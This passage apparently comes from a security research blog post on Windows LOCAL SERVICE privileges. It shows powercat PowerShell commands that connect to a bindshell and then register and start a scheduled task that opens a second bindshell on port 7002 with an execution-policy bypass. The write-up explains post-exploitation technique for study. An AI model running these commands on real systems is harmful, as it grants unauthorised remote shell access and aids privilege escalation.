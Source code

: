 Be careful, it won't tell you whether it succeeded or not so you should check your command twice before running it. Once it's done, we can use `powercat` in "client mode" to connect to the bindshell.

```powershell
. .\powercat.ps1
powercat -c 127.0.0.1 -p 7001
```

<p align="center">
  <img src="/assets/posts/2019-12-05-localservice-privileges/05_localservice-bindshell.png">
</p>

Nice! :thumbsup: We have a shell in the context of `NT AUTHORITY\SERVICE` and as you can see we have only two privileges. We can therefore start working from this prompt. 


## The Task Scheduler Has Got Your Back!

Any user can create its own scheduled tasks in Windows and `NT AUTHORITY\LOCAL SERVICE` is no exception to this rule. By default, the account used to run a Task is the same as the Task's "author". The scheduled task creation process is done through a series of local (or remote) RPC calls but I won't go into detail about this. 

Let's see what happens when we create a task in the context of a `LOCAL SERVICE` account. This can be achieved in three simple steps using PowerShell.

First, we need to create an `Action` object for the task. That's where you specify the program/script to execute along with some optional arguments. Here, we want to open a bindshell on port 7002 so we will use the following command.

```powershell
$TaskAction = New-ScheduledTaskAction -Execute "powershell.exe" -Argument "-Exec Bypass -Command `". C:\TOOLS\powercat.ps1; powercat -l -p 7002 -ep`""
```

Then, you can "register" the task and start it manually.

```powershell
Register-ScheduledTask -Action $TaskAction -TaskName "SomeTask"
Start-ScheduledTask -TaskName "SomeTask"
```

<p align="center">
  <img src="/assets/posts/2019-12-05-localservice-privileges/06_localservice-create-task.png">
</p>
